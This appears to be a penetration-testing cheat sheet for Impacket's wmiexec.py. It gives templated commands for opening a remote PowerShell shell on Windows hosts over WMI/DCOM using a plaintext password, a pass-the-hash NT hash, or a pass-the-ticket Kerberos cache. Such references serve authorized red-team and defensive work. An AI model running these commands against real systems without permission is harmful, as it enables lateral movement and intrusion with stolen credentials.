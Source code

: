 # wmiexec (imp)

% windows, impacket-exec

## wmiexec (creds)
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  
Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py -shell-type powershell '<domain_fqdn>/<user>:<password>'@<ip>
```

## pth (pth) 
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  

Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py -shell-type powershell -hashes <nt_hash> <user>@<ip>
```

## wmiexec (ptt)
```
export KRB5CCNAME=<ccache>; wmiexec.py -shell-type powershell -dc-ip <dc_ip> -target-ip <ip> -no-pass -k <target_name>
```